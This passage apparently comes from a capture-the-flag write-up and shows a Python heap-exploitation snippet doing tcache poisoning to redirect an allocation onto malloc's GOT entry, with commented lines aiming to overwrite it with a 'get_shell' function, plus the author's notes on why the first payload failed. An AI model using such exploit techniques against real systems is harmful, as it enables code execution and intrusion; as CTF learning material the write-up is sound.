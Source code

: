```python
Tcache1 = create_heap(0x28, b'Tcache1')
Tcache2 = create_heap(0x28, b'Tcache2')
delete_heap(Tcache1)
delete_heap(Tcache2)

modify_heap(Tcache1, 0xf , b'a' * 9)

delete_heap(Tcache1)

create_heap(0x28, pack(elf.got['malloc']))
#create_heap(0x28, b'garbage1')
#create_heap(0x28, b'garbage2')
#create_heap(0x28, pack(elf.sym['get_shell']))
```

This is my first payload; however, it is not successfull

I see that 

![trigger](images/trigger_tcache.png)

It has two tcachebins, although it recognize the pointer to malloc got.

Thus, I link tcache2 to malloc got instead of tcache1.(trigger number of tcachebins)